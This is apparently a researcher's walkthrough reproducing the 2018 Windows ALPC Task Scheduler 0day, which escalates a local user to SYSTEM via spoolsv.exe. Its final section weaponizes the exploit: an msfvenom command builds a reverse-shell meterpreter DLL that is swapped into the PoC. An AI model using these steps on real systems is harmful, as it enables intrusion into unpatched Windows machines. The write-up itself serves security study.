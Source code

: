 # ALPC bug 0day

[https://github.com/SandboxEscaper/randomrepo/blob/master/PoC-LPE.rar](https://github.com/SandboxEscaper/randomrepo/blob/master/PoC-LPE.rar)

{% embed url="https://www.theregister.co.uk/2018/08/28/windows\_0day\_pops\_up\_out\_of\_span\_classstrikenowherespan\_twitter/" caption="" %}

## How to use

A 0day for a local priv esc for Windows was published August 28th on Twitter by @sandboxescaper, whose account was pulled quickly. The PoC is on [Github](https://github.com/SandboxEscaper/randomrepo). The video posted with the PoC wasn't evident so I made a quick reproduction to verify whether it works, and it certainly does.

* As Administrator, open [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) - right click, "Run as administrator"
* As a regular user, launch notepad. If you opened it from cmd, you get a subprocess notepad inside cmd. This thread runs with the user context you launched it with. Note that the PID of the notepad process is `3872`

![](../.gitbook/assets/image-18.png)

![](../.gitbook/assets/image-30.png)

* If you need to see username and  integrity level in Process Explorer you can go to View -&gt; Select columns and check 

![](../.gitbook/assets/image-38.png)

Now, have a look at the process spoolsv.exe which is basically where the actions is going to happen. Nothing much here yet.

![](../.gitbook/assets/image-46.png)

Now fire the exploit off and see what happens \(this is demonstrated in the PoC video\). We use the PID of the notepad process we spawned earlier `3872`

![](../.gitbook/assets/image-6.png)

Now, it appears that nothing is happening, but take a look at spoolsv in Process Explorer again.

![](../.gitbook/assets/image-5.png)

Bham! cmd.exe with subprocesses conhost and notepad has spawned as SYSTEM!

### Windows 10 - works!

0day priv esc confirmed on Windows 10 1803. No patch has been released by MS yet \(28.08.2018\)

![](../.gitbook/assets/image-10.png)

This could probably be tweaked to open an actual cmd window as SYSTEM instead of a windowless process in the background.

Edit on the above: @plaintext notified me that the processes spawn in session 0 which is why they won't be visible to the user which operations in session 1. If you toggle Session in the columns panel in ProcExplorer you can see that very clearly.

![](../.gitbook/assets/image-17.png)

### Server 2016 - works

![](../.gitbook/assets/image-40.png)

### Windows 7 - Nothing happens

![](../.gitbook/assets/image-48.png)

\*\*\*\*

### Weaponization maybe?

After reading the source code I discovered that notepad is launched from the `exploit.dll` added as a Resource. This can be seen at line 101-105 in the source code.

```text
//Payload is included as a resource, you need to modify this resource accordingly.
HRSRC myResource = ::FindResource(mod, MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);
unsigned int myResourceSize = ::SizeofResource(mod, myResource);
HGLOBAL myResourceData = ::LoadResource(mod, myResource);
void* pMyBinaryData = ::LockResource(myResourceData);
```

When clicking that one, we can see this exploit.dll which in the PoC just spawns notepad can't be read since I don't have it in that absolute path.

![](../.gitbook/assets/image-37.png)

So instead of recompiling and fixing the 500 errors I got from visual studio I decided it was easier to replace the dll directly as a Resource with [CFF Explorer](https://ntcore.com/?page_id=388)'. But before I did that I had to prepare the payload.

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.0.0.16 lport=444 -f dll -o lol.dll`

Select "Replace Resource \(raw\)" in CFF Explorer and provide the `lol.dll`. Then save the `ALPC-TaskSched-LPE.dll` as a new file. The entire exploit is now embedded into the dll file

![](../.gitbook/assets/image-55.png)

So we fire of the exploit again, just like we did above and wait for our shell to come back.

Woop de doo we got a SYSTEM meterpreter.

![](../.gitbook/assets/image-28.png)

